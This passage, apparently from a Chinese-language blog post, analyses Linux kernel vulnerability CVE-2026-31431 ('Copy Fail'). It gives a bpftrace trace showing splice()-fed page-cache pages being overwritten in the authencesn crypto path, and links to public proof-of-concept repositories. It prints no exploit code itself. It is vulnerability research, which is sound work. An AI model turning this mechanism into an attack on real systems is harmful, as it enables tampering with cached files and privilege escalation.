

### STEP 12: next loop

走下一个循环，见下图（不过多解释)


## 添加tracepoint 对上面流程做进一步验证

添加`tracepoint`代码分支<sup></sup>

使用[bpftrace](https://github.com/cai-fuqiang/linux/blob/v6.15-ECS-31431/Documentation/scheduler/cve-31431-debug.bt)
获取的调试信息如下(做两次循环)

```sh
TIME     EVENT                          DETAIL
## 第一次循环
659073425 TP1:sendmsg_pages  sock=25722 sg[0] page=0xfffffa1e044765c0 pfn=0x111d97 off=0 len=8 user=1
## 0xfffffa1e04539740 为pagecache[0]
1284549034 TP2:file_to_pipe     ino=660717 path= page=0xfffffa1e04539740 pfn=0x114e5d pipe[0] off=0 len=4 ref=3
1684898945 TP3:pipe_to_sock     sock=25722 pipe[0] page=0xfffffa1e04539740 pfn=0x114e5d off=0 len=4 bvec=0
## 这次sendmsg() 是通过 splice() 触发
1684919155 TP1:sendmsg_pages  sock=25722 sg[1] page=0xfffffa1e04539740 pfn=0x114e5d off=0 len=4 user=0
2142878890 TP5:rsgl_COPY    sock=25722 sg[0] page=0xfffffa1e04844cc0 pfn=0x121133 off=1008 len=8 type=AAD sglist=0xffff9948067a6820
2142896150 TP7:authencesn     src_eq_dst=1 step=0 read_ihash           start=8 nbytes=4 dir=R page=0xfffffa1e04539740 pfn=0x114e5d
2142899150 TP7:authencesn     src_eq_dst=1 step=1 read_aad             start=0 nbytes=8 dir=R page=0xfffffa1e04844cc0 pfn=0x121133
2142902804 TP6:sw_write       page=0xfffffa1e04844cc0 pfn=0x121133 page_off=1012 sw_off=4 nbytes=4 pgcache=0 ino=0 sg=0xffff9948067a6820
2142906190 TP7:authencesn     src_eq_dst=1 step=2 write_seqno_hi       start=4 nbytes=4 dir=W page=0xfffffa1e04844cc0 pfn=0x121133
2142908994 TP6:sw_write       page=0xfffffa1e04844cc0 pfn=0x121133 page_off=1016 sw_off=8 nbytes=4 pgcache=0 ino=0 sg=0xffff9948067a6820
## 覆盖pagecache (可以看page 地址)
2142911837 TP7:authencesn     src_eq_dst=1 step=3 write_seqno_lo       start=8 nbytes=4 dir=W page=0xfffffa1e04539740 pfn=0x114e5d
2142913897   STEP 3: write seqno_lo -> dst[assoclen+cryptlen] = dst[8]
2142917574 TP7:authencesn     src_eq_dst=0 step=4 hmac_verify          start=4 nbytes=8 dir=R page=0x0 pfn=0x0
2142924570 TP6:sw_write       page=0xfffffa1e04844cc0 pfn=0x121133 page_off=1008 sw_off=0 nbytes=8 pgcache=0 ino=0 sg=0xffff9948067a6820

2143002104 TP1:sendmsg_pages  sock=25725 sg[0] page=0xfffffa1e044765c0 pfn=0x111d97 off=0 len=8 user=1
## 0xfffffa1e04539740  为pagecache[1]
3213715422 TP2:file_to_pipe     ino=660717 path= page=0xfffffa1e04539740 pfn=0x114e5d pipe[0] off=0 len=8 ref=3
2214578506 TP3:pipe_to_sock     sock=25725 pipe[0] page=0xfffffa1e04539740 pfn=0x114e5d off=0 len=8 bvec=0
2214596216 TP1:sendmsg_pages  sock=25725 sg[1] page=0xfffffa1e04539740 pfn=0x114e5d off=0 len=8 user=0
2559590577 TP5:rsgl_COPY    sock=25725 sg[0] page=0xfffffa1e04844cc0 pfn=0x121133 off=1008 len=8 type=AAD sglist=0xffff9948067a6820
2559605427 TP7:authencesn     src_eq_dst=1 step=0 read_ihash           start=12 nbytes=4 dir=R page=0xfffffa1e04539740 pfn=0x114e5d
2559608060 TP7:authencesn     src_eq_dst=1 step=1 read_aad             start=0 nbytes=8 dir=R page=0xfffffa1e04844cc0 pfn=0x121133
2559610920 TP6:sw_write       page=0xfffffa1e04844cc0 pfn=0x121133 page_off=1012 sw_off=4 nbytes=4 pgcache=0 ino=0 sg=0xffff9948067a6820
2559613934 TP7:authencesn     src_eq_dst=1 step=2 write_seqno_hi       start=4 nbytes=4 dir=W page=0xfffffa1e04844cc0 pfn=0x121133
2559616460 TP6:sw_write       page=0xfffffa1e04844cc0 pfn=0x121133 page_off=1020 sw_off=12 nbytes=4 pgcache=0 ino=0 sg=0xffff9948067a6820
2559619634 TP7:authencesn     src_eq_dst=1 step=3 write_seqno_lo       start=12 nbytes=4 dir=W page=0xfffffa1e04539740 pfn=0x114e5d
2559622254   STEP 3: write seqno_lo -> dst[assoclen+cryptlen] = dst[12]
2559625740 TP7:authencesn     src_eq_dst=0 step=4 hmac_verify          start=4 nbytes=12 dir=R page=0x0 pfn=0x0
```

## 参考链接

1. [Gemini AI生成前言](https://gemini.google.com/share/2ef2d7ad5b0e)
2. [github: CVE-2026-31431 python poc](https://github.com/theori-io/copy-fail-CVE-2026-31431)
3. [Copy Fail: What You Need to Know About the Most Severe Linux](https://unit42.paloaltonetworks.com/cve-2026-31431-copy-fail/)
4. [github: CVE-2026-31431-C](https://github.com/cai-fuqiang/CVE-2026-31431-C)
5. [The IPsec protocols](https://www.hit.bme.hu/~buttyan/courses/BMEVIHIM132/2010/11_ipsec.pdf)
6. [v6.15 contain tracepoint](https://github.com/cai-fuqiang/linux/tree/v6.15-ECS-31431)
